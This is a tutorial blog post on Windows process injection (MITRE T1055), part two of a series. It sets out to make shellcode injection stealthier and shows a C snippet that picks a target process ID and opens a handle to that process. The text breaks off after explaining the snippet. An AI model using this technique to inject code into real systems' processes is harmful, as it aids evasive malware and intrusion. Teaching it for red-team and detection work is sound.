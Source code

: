 ```yaml
---
title: T1055 - Basics of Process Injection - Part 2
author: Khush V
date: 2021-04-05 14:10:00 +0000
categories: [TTPs, T1055 - Process Injection]
tags: [process injection, T1055]
---
```


# Back to Basics - Part 2

In the last post, part 1 of this series, we were presented with a simple Proof of Concept code for injecting shellcode into processes. In this post, we'll continue looking at different functions and techniques that can help us be stealthier. We'll cover remote process injections, obfuscating function calls and using `ntdll` function calls.

## 6 - Injecting into remote processes 

So far, we've been injecting code into the callee's process, that is the local process executing this code. It is also possible to inject code into a different process, or what is known as a remote process.

The main change to the code is the following addition:
```
	DWORD pid;
	if (argc < 2) {
		printf("[*] Command: %s PID.\n", argv[0]);

		pid = GetCurrentProcessId();
		printf("[*] No process ID provided, using current process id %d.\n", pid);
		pid = GetCurrentProcessId();
	}
	else {
		pid = atoi(argv[1]);
		printf("[*] Using PID %d provided.\n", pid);

	}

	int payload_len = sizeof(payload);
	
	printf("[*] Attempting to get handle on process.\n");
	HANDLE  processHandle = OpenProcess(CREATE_THREAD_ACCESS, 0, pid);
	if (processHandle == 0) {
		printf("[*] Error opening process handle. Error: %d.\n", GetLastError());
		return -1;
	}
	printf("[*] Got process handle.\n");
```

The first conditional step checks whether a process ID (PID) has been provided. If it has not, the program assumes we want to inject code into the local process. 
